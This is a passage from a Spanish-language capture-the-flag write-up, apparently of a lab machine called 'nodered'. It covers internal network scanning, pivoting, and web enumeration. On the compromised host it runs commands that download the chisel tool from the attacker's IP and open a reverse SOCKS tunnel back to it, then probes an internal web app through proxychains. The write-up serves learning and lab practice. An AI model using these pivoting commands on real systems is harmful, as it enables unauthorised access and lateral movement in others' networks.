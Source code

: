 ```null

Nmap scan report for 172.19.0.4
Host is up (0.000033s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
1880/tcp open  unknown

Nmap done: 4 IP addresses (4 hosts up) scanned in 66.12 seconds
```

Subo el ```chisel``` a la máquina para poder tener alcance con el resto de segmentos

```null
root@nodered:/tmp# __curl http://10.10.16.9/chisel > chisel
root@nodered:/tmp# chmod +x chisel
```

En mi equipo creo el servidor

```null
chisel server -p 1234 --reverse
```

Desde la máquina me conecto como cliente

```null
root@nodered:/tmp# ./chisel client 10.10.16.9:1234 R:socks &>/dev/null & disown
```

Veo el código fuente de la web de la 172.19.0.3

```null
proxychains curl -s -X GET http://172.19.0.3/
```

Aparecen rutas con parámetros

```null
proxychains curl -s -X GET http://172.19.0.3/ 2>/dev/null | grep url | sed 's/\s*//'
url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits",
url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
```

Y comentarios

```null
proxychains curl -s -X GET http://172.19.0.3/ 2>/dev/null | grep "*" | sed 's/\s*//'
/*
* TODO
*
* 1. Share the web folder with the database container (Done)
* 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
* ...Still don't know how to complete it...
*/
```

El directorio existe, pero no tiene capacidad de directory listing

